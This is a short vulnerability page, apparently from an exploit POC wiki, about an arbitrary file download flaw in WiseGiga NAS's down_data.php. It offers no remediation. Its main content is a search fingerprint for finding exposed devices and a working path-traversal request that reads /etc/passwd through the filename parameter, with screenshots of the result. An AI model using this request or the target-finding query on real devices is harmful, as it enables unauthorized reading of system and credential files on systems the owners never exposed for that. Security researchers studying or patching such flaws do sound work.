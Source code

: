 # WiseGiga NAS down_data.php Arbitrary file download vulnerability

## Vulnerability Description

There is a vulnerability to download any file in WISEGIGA NAS down_data.php. Because the filename parameter of the /down_data.php page is not filtered strictly, system-sensitive files can be read.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">WiseGiga NAS</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="WISEGIGA-NAS"</span>

## Vulnerability reappears

Main page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1656240215340-595e0191-aa82-407e-972d-a59339dfd28a-20220626184843953.png)

Verify POC

```php
/down_data.php?filename=../../../../../../../../../../../../../../etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1656240238984-898fa7ef-186c-4376-8a6f-61ab19fa2d0d-20220626184848871.png)